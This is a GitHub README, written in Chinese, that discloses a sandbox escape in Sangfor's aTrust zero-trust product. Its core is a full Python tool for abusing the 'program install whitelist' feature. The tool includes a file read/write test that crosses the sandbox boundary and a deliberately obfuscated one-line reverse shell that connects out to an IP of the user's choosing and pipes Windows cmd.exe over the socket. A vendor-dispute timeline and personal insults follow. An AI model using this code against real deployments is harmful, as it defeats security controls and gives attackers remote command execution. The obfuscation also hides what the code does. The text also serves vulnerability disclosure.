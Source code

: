 # SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）

![Visitor Count](https://profile-counter.glitch.me/SXF_aTrust_sandbox_bypass/count.svg)


# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读
![](1.png)
![](2.png)

# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息


### 仲裁情况？
![](3.png)

群聊完整图：待补


### 为什么不让小团体仲裁？

赛博大佬说用github都是卖国的，小心赛博大佬黑了你们。

留个位置先，这位更是重量级傻狗。

![](4.jpg)


